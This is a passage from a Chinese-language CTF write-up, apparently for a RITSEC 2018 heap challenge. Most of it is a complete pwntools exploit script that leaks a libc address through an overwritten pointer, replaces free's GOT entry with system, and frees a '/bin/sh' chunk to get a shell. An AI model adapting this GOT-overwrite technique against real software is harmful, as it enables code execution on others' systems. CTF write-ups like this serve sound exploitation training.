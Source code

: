 在本地運行時，由於本地libpthread與出題者用的庫不匹配，所以運行`LD_PRELOAD=./libc.so.6 LD_DEBUG=files ./pwn2`無法正確運行，但是將libc.so.6替換成本地的/lib32/libc.so.6可以正確運行和攻擊。

攻擊腳本如下
```python
from pwn import *

# context.log_level = 'debug'
# r = process('./pwn2', env={'LD_PRELOAD': './libc.so.6'})
r = process('./pwn2')

def add(length, name, age):
    r.sendlineafter('choice: ', '1')
    r.sendlineafter('length: ', '%d' % length)
    r.sendlineafter('name: ', name)
    r.sendlineafter('age: ', '%d' % age)

def edit(i, length, name):
    r.sendlineafter('choice: ', '2')
    r.sendlineafter('(0-based): ', '%d' % i)
    r.sendlineafter('length: ', '%d' % length)
    r.sendlineafter('name: ', name)

def show(i):
    r.sendlineafter('choice: ', '3')
    r.sendlineafter('(0-based): ', '%d' % i)
    r.recvuntil('Name: ')
    name = r.recvline()
    return name

def delete(i):
    r.sendlineafter('choice: ', '4')
    r.sendlineafter('(0-based): ', '%d' % i)

free_got = 0x08191028
print_add = 0x080ebb10
libc = ELF('/lib32/libc.so.6')
free = libc.symbols['free']
sys = libc.symbols['system']

add(1, 'a', 0)
add(1, 'b', 1)
add(8, '/bin/sh', 2)

edit(0, 24, 'A' * 16 + p32(print_add) + p32(free_got))
free_libc = u32(show(1)[:4])
gdb.attach(r)
print 'free@libc = 0x%08x' % free_libc
sys_libc = free_libc - free + sys
print 'system@libc = 0x%08x' % sys_libc

edit(1, 4, p32(sys_libc))
delete(2)
r.interactive()
```

### 純動態跟蹤分析方法
[這篇writeup](https://lordidiot.github.io/2018-11-18/ritsec-ctf-2018/#yet-another-hr-management-framework-pwn)使用了給malloc和free掛鉤子的方法來動態分析程序在何時調用malloc和free以及返回trunk的地址和大小，也很有借鑑意義。

